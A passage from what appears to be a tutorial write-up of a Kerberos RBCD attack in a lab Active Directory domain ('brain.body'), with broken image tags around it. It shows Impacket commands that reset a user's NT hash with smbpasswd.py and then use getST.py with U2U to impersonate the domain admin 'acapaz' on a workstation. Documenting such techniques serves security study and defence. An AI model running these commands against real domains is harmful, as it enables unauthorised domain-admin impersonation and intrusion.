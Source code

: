    <img src="/assets/img/describe.png">
</p>


We use this hash as password, then we have to change the password for the user who we will use to impersonate, in our case i use the same user `userrbcd`,  from here we don't know the clear password and we will use pass the hash.

`smbpasswd.py -newhashes :d3c298be6a1c28214c10f89d50b30e8a brain.body/userrbcd@dc01.brain.body`
<p align="center">
   <img src="/assets/img/changepass1.png">
</p>


With the new password added to our user, de DC can decrypt the ticket and use U2U to impersonate a user in the machine which we modify the attribute *AllowedToActOnBehalfOfOtherIdentity*
<br>
`export KRB5CCNAME=userrbcd.ccache`

Now we create a TGS for a DA as a normal RBCD.<br>
`getST.py -u2u -impersonate acapaz -spn "cifs/windows10.brain.body" -k -no-pass brain.body/userrbcd`

With this new ticket, we could access to the machine as `acapaz`, domaind admin
<p align="center">